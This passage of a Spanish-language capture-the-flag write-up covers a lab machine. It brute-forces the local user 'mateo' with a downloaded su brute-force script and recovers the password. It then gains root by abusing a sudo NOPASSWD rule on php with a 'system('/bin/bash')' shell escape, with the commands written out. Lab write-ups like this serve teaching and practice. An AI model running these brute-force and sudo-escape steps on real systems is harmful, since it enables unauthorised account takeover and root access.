 Nos descargamos la herramienta en el siguiente link:

URL = [suBruteforce.sh GitHub](https://github.com/D1se0/suBruteforce/blob/main/suBruteforceBash/suBruteforce.sh)

Solo tendremos que copiar el codigo y pegarlo en el archivo que creemos en `/tmp`.

```shell
vim suBruteforce.sh
#<PRESS_i>
#<SCRIPT_PASTE>
#<ESC>
#<:wq> Para guardar y salir
```

Una vez que tengamos el script cargado en el sistema, ponemos permisos de ejecuccion:

```shell
chmod +x suBruteforce.sh
```

Y haremos lo mismo con el archivo de contraseñas:

```shell
vim dic.txt
#<PRESS_i>
#<PASTE_KEYS>
#<ESC>
#<:wq> Para guardar y salir
```

Y utilizaremos la herramienta de la siguiente forma:

```shell
bash suBruteforce.sh mateo dic.txt
```

Info:

```
[+] Contraseña encontrada para el usuario mateo:easycrazy
```

Por lo que escalaremos al usuario `mateo`.

```shell
su mateo
```

Metemos como contraseña `easycrazy` y veremos que somos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for mateo on c8332aa1fb59:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mateo may run the following commands on c8332aa1fb59:
    (ALL) NOPASSWD: /usr/bin/php
```

Veremos que podemos ejecutar el binario `php` como el usuario `root`, por lo que haremos lo siguiente:

```shell
CMD="/bin/bash"
sudo php -r "system('$CMD');"
```

Con esto seremos `root` y habremos terminado la maquina.
